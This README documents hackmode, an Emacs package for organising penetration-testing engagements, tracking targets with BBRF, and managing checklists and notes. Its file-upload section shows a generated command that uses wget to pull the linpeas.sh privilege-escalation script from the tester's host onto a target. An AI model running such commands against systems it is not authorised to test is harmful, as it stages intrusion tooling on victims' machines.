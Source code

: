 #+TITLE: hackmode.el - Pentesters Lil lisp redpill
* hackmode.el - Pentester's ELisp

A comprehensive Emacs package designed to streamline penetration testing workflows by providing integrated tools for operation management, asset tracking, and automation - all from within your favorite editor.

** Why hackmode?

As a pentester, you're constantly juggling multiple tools, keeping track of targets, managing scan outputs, and organizing findings across different engagements. Traditional workflows often involve:

- Scattered terminal sessions across different directories
- Manual file management for different operations
- Copy-pasting commands between tools
- Losing track of wordlists and payloads
- Inconsistent project structure

*hackmode* was created to solve these pain points by bringing everything into Emacs - providing a unified interface for operation management, asset tracking with BBRF integration, and workflow automation. Think of it as your pentesting command center that grows with your methodology.

** Features

- *Operation Management*: Create and switch between different pentesting engagements with isolated workspaces
- *Asset Tracking*: Full BBRF (Bug Bounty Reconnaissance Framework) integration for managing targets, domains, IPs, and URLs
- *File Upload Helper*: Generate wget/curl commands for easy file transfers to target systems
- *Tool Serving*: Centralized tool management and serving
- *Target Management*: Keep track of current targets with completion and easy switching
- *Checklist Integration*: Copy and manage methodology checklists per target
- *Transient Menus*: Clean, discoverable interfaces for all functionality
- *Environment Integration*: Automatic direnv setup for proper environment isolation

** Installation

*** Using straight.el (Recommended)

#+begin_src emacs-lisp
(use-package hackmode
  :straight (:host github :repo "lost-rob0t/emacs-hackmode")
  :custom
  (hackmode-dir "~/pentesting")                    ; Base directory for operations
  (hackmode-interface "tun0")                      ; Default network interface
  (hackmode-wordlist-dir "~/wordlists")           ; Wordlist directory
  (hackmode-tools-dir "~/tools")                  ; Tools directory
  (hackmode-templates "~/.config/hackmode/templates") ; Project templates
  :config
  ;; Hook to automatically navigate to operation directory
  (add-hook 'hackmode-operation-hook #'hackmode-goto-operation)

  ;; Optional: Set up capture templates for quick note-taking
  (setq hackmode-capture-templates
        '(("f" "Finding" entry
           (file+headline "findings.org" "Findings")
           "* TODO %^{Title}\n%T\n%?")
          ("n" "Note" entry
           (file+datetree "notes.org")
           "* %^{Title}\n%T\n%?")))

  ;; Optional: Set up checklists
  (setq hackmode-checklists
        '(("Web Application" . "~/checklists/webapp.org")
          ("Network" . "~/checklists/network.org")
          ("Active Directory" . "~/checklists/ad.org"))))
#+end_src

*** Manual Installation

1. Clone the repository:
#+begin_src bash
git clone https://github.com/lost-rob0t/emacs-hackmode ~/.emacs.d/lisp/hackmode
#+end_src

2. Add to your Emacs configuration:
#+begin_src emacs-lisp
(add-to-list 'load-path "~/.emacs.d/lisp/hackmode")
(require 'hackmode)
#+end_src

** Configuration Examples

*** Basic Setup

#+begin_src emacs-lisp
(use-package hackmode
  :straight (:host github :repo "lost-rob0t/emacs-hackmode")
  :bind (("C-c h" . hackmode-menu)
         ("C-c H" . hackmode-bbrf-menu))
  :custom
  (hackmode-dir "~/engagements")
  (hackmode-interface "tun0")
  (hackmode-wordlist-dir "/usr/share/wordlists")
  :config
  (add-hook 'hackmode-operation-hook #'hackmode-goto-operation))
#+end_src

*** Advanced Configuration with BBRF Integration

#+begin_src emacs-lisp
(use-package hackmode
  :straight (:host github :repo "lost-rob0t/emacs-hackmode")
  :bind (("C-c h" . hackmode-menu)
         ("C-c H" . hackmode-bbrf-menu)
         ("C-c t" . hackmode-select-target)
         ("C-c u" . hackmode-upload-file))
  :custom
  (hackmode-dir "~/pentesting")
  (hackmode-interface "tun0")
  (hackmode-wordlist-dir "~/wordlists")
  (hackmode-tools-dir "~/tools")
  :config
  ;; Auto-navigate to operation directory
  (add-hook 'hackmode-operation-hook #'hackmode-goto-operation)

  ;; BBRF hooks for automation
  (add-hook 'hackmode-bbrf-domain-added-hook
            (lambda () (message "New domain added to BBRF!")))

  ;; Custom capture templates
  (setq hackmode-capture-templates
        '(("v" "Vulnerability" entry
           (file+headline "findings.org" "Vulnerabilities")
           "* %^{Severity|HIGH|MEDIUM|LOW} %^{Title}\n:PROPERTIES:\n:CVSS: %^{CVSS}\n:HOST: %^{Host}\n:PORT: %^{Port}\n:END:\n%T\n\n** Description\n%?\n\n** Impact\n\n** Remediation\n")
          ("n" "Note" entry
           (file+datetree "notes.org")
           "* %^{Title}\n%T\n%?")
          ("t" "Tool Output" entry
           (file+headline "scans.org" "Scan Results")
           "* %^{Tool} - %^{Target}\n%T\n#+BEGIN_EXAMPLE\n%?\n#+END_EXAMPLE")))

  ;; Methodology checklists
  (setq hackmode-checklists
        '(("OWASP Top 10" . "~/checklists/owasp.org")
          ("Network Pentest" . "~/checklists/network.org")
          ("Active Directory" . "~/checklists/ad.org")
          ("Mobile App" . "~/checklists/mobile.org"))))
#+end_src

** Usage Examples

*** Basic Workflow

1. *Create a new operation:*
#+begin_src
M-x hackmode-menu
c (Create operation)
#+end_src

2. *Select a template and name your operation:*
#+begin_src
Select Template: web-app-template
Enter Operation Name: client-webapp-2024
#+end_src

3. *Add targets:*
#+begin_src
M-x hackmode-add-target
Enter Target: example.com
#+end_src

4. *Select current target:*
#+begin_src
M-x hackmode-select-target
Select Target: example.com
#+end_src

*** BBRF Integration

1. *Access BBRF menu:*
#+begin_src
M-x hackmode-bbrf-menu
#+end_src

2. *Create a new program:*
#+begin_src
c (Create program)
Enter Program name: client-bounty-2024
#+end_src

3. *Add domains to BBRF:*
#+begin_src
d (Add domains)
Domains to add: example.com subdomain.example.com
#+end_src

4. *Add tags for organization:*
#+begin_src
tt (add a tag)
Enter key name: source
Enter value: recon
#+end_src

*** File Upload Helper

When you need to transfer tools to a target system:

#+begin_src
M-x hackmode-upload-file
Tool to download: linpeas.sh
interface: tun0
port: 8000
Cmd to use to download: wget
#+end_src

This generates and copies to clipboard:
#+begin_src
wget http://10.10.14.5:8000/linpeas.sh
#+end_src

*** Working with Regions

Select a region containing domains and add them to BBRF:
#+begin_src
M-x hackmode-bbrf-domains-from-region
#+end_src

*** Checklist Management

Apply a methodology checklist to current target:
#+begin_src
M-x hackmode-use-checklist
Select a checklist: OWASP Top 10
#+end_src

This creates a target-specific checklist file and adds it to your check-lists.org.

** Directory Structure

hackmode creates a structured workspace for each operation:

#+begin_src
~/pentesting/
├── client-webapp-2024/
│   ├── .config/
│   │   └── targets.txt
│   ├── .envrc
│   ├── checklists/
│   │   └── example.com-checklist.org
│   ├── findings/
│   │   └── findings.org
│   ├── notes.org
│   ├── scans/
│   └── check-lists.org
└── .hackmode-tools/
    ├── linpeas.sh
    ├── winpeas.exe
    └── ...
#+end_src

** Key Commands

| Command | Description |
|---------|-------------|
| =hackmode-menu= | Main transient menu |
| =hackmode-bbrf-menu= | BBRF asset management menu |
| =hackmode-create-operation= | Create new operation |
| =hackmode-switch-op= | Switch between operations |
| =hackmode-select-target= | Select current target |
| =hackmode-add-target= | Add new target |
| =hackmode-upload-file= | Generate file upload command |
| =hackmode-use-checklist= | Apply methodology checklist |
| =hackmode-capture= | Quick capture notes/findings |

** Dependencies

- *Required:*
  - =f.el= - File path manipulation
  - =emacs-async= - Asynchronous processing
  - =vterm= - Terminal emulation
  - =transient= - Menu system (built into Emacs 28+)

- *Optional:*
  - =direnv= - Environment management
  - =bbrf= - Bug Bounty Reconnaissance Framework
  - =org-mode= - Note-taking and project management

** Philosophy

hackmode embodies the principle that your text editor should be the central hub of your workflow. By bringing pentesting operations into Emacs, you get:

- *Consistency*: Same interface for all operations
- *Integration*: Seamless connection between tools and documentation
- *Automation*: Reduce repetitive tasks through Lisp scripting
- *Organization*: Structured approach to engagement management
- *Extensibility*: Easy to customize and extend for your specific needs

* TODO  
+ Allow buffer local targets like gptel transient menu
+ Move template loading to yasnippet 
+ Move this stuff to a function (init metadata)
+ Add bulk domains command for bbrf
+ Add hackmode-bbrf asset listing
+ Suggest skeltor templates
+ Again remove f.el (one big swoop will be done need seperate elisp devel config)
